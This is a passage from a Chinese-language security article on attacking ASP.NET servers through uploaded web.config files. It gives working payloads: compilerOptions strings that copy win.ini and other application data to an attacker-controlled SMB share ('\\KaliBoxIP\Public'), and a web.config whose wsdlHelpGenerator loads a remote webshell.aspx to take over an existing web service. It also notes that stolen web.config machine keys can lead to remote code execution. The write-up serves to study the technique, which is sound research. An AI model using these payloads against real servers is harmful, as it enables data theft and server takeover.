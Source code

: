 ```plain
        {
            this.SetRenderMethodDelegate(new System.Web.UI.RenderMethod(this.@__Render__control1));
        }
    }
}
```

##### 2.1.3 窃取内部文件

以下字符串显示compilerOptions属性：

```plain
/resource:c:\windows\win.ini /out:\\KaliBoxIP\Public\test.bin
```

在上载文件夹中打开现有ASP.NET页面后，将在包含`win.ini`文件的共享文件夹中创建`test.pdb和test.bin`文件。 这对于获取应用程序的`web.config`文件尤其有用，因为它可能包含敏感数据，例如可以使用远程代码执行的机器密钥。

##### 2.1.4 窃取应用的更多数据

以下字符串显示compilerOptions属性：

```plain
/resource:\\KaliBoxIP\Public\test.txt -bugreport:\\KaliBoxIP\Public\foobar1.txt /errorreport:none
```

在该文件夹中打开现有`ASP.NET`页面后，这将在共享路径上创建一个大文件，该文件可能包含有关应用程序或其基础技术的敏感数据。

[![](assets/1711555915-83046f4327c6889bad2a42b1de8e3f9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190818001145-b584e318-c109-1.png)

显然，当路径已知并且可以远程下载文件时，也可以在同一Web服务器上创建此文件。

#### 2.2 接管上传的.NET文件

以下web.config可用于接管现有的Web服务文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration> 
    <system.web>
        <webServices>
            <protocols>
                <add name="Documentation"/>
            </protocols>
            <wsdlHelpGenerator href="\\KaliBoxIP\Public\webshell.aspx"/>
        </webServices>
    </system.web>
</configuration>
```
